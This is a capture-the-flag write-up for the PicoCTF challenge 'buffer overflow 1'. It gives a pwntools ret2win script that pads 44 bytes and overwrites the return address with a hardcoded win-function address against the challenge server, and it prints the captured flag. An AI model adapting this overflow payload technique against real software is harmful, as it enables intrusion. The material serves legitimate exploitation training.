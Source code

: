 # PicoCTF – buffer overflow 1

* **Category:** Binary Exploitation
* **Points:** 200

## Challenge

> Control the return address

## Solution
#### ret2win
```python
from pwn import *
elf = context.binary = ELF('./vuln', checksec=False)
p = remote("saturn.picoctf.net", 56818)#process()
p.recvline()

offset = 44
payload = flat(
        offset * b'A',
        0x80491f6 # win
)
p.clean()
p.sendline(payload)
p.interactive()
```

```
Flag: picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
```
